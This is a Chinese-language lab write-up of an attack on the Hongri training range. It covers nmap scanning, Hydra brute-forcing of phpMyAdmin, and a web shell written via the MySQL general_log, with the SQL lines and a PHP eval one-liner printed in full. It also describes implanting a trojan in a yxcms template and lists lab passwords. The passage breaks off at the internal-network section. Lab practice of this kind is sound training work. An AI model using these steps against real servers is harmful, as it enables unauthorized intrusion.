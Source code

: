 #### 思考：

1. 如何将后门程序自启动
2. metasploit 各个阶段，左边提示是不一样的，各种时候代表着什么。
3. 如何使用代理，跳板手段，内网通道构建

#### 流程要点：

1. 寻找web网站服务器漏洞，使用漏洞获取后门，并将后门持续化
2. 资料搜集，权限提升命令，还有后门程序维持
3. 使用windows shell的时候乱码  chcp 65001
4. 使用web服务器机器作为跳板代理，扫描内网。其实只是添加了另外一个网段的路由。



#### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。



密码： hongrisec@2019  2023?  ASDFqwer123



#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。

<img src="./images/20230409173932.jpg" style="zoom: 33%;" />

3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。

<img src="./images/20230409183648.jpg" style="zoom: 33%;" />

4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd

<img src="./images/20230409185306.jpg" style="zoom:33%;" />

5. 抄袭老师的做法，备份了`yxcms`的代码，然后查找关于这个`cms`的历史漏洞。然后其实这个页面红日给出了答案。

<img src="./images/20230410201037.jpg" style="zoom: 50%;" />

登录了后台管理，然后在`前台模板->管理模板文件->index_index.php`编辑首页的php代码，插入一句话木马。



#### 3. 内网渗透





